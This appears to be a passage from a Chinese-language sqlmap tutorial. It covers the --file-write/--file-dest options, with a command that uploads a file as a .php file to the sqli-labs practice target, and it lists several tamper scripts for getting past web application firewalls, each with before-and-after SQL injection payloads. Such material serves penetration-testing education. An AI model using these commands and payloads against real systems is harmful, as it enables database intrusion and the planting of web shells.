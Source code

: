 === "8、`--file-write` `--file-dest`：上传文件到数据库服务器中"

    该命令用于写入本地文件到服务器中，当数据库为MySQL、PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数时，上传的文件可以是文本，也可以是二进制文件。
    ```shell
    sqlmap -u http://127.0.0.1/sqli-labs/Less-1/?id=1 --file-write "C:/1.txt" --file-dest "C:/windows/Temp/1.php"
    ```
    执行结束即可把本地的1.txt 文件上传到目标服务器下
    在这里插入图片描述

#### tamper

–tamper参数对数据做修改来绕过waf等设备
```shell
sqlmap -u <url> --tamper <模块名>
```

sqlmap的绕过脚本在目录usr/share/golismero/tools/sqlmap/tamper下


??? note "脚本目录"

    **apostrophemask.py**
    适用数据库：ALL
    作用：将引号替换为utf-8，用于过滤单引号
    使用脚本前：`tamper("1 AND '1'='1")`
    使用脚本后：`1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

    **base64encode.py**
    适用数据库：ALL
    作用：替换为base64编码
    使用脚本前：`tamper("1' AND SLEEP(5)#")`
    使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`

    **multiplespaces.py**
    适用数据库：ALL
    作用：围绕sql关键字添加多个空格
    使用脚本前：`tamper('1 UNION SELECT foobar')`
    使用脚本后：`1 UNION SELECT foobar`

    **space2plus.py**
    适用数据库：ALL
    作用：用加号替换空格
    使用脚本前：`tamper('SELECT id FROM users')`
    使用脚本后：`SELECT+id+FROM+users`

    **nonrecursivereplacement.py**
    适用数据库：ALL
    作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）
    使用脚本前：`tamper('1 UNION SELECT 2--')`
    使用脚本后：`1 UNIOUNIONN SELESELECTCT 2--`

    **space2randomblank.py**
    适用数据库：ALL
    作用：将空格替换为其他有效字符
    使用脚本前：`tamper('SELECT id FROM users')`
    使用脚本后：`SELECT%0Did%0DFROM%0Ausers`
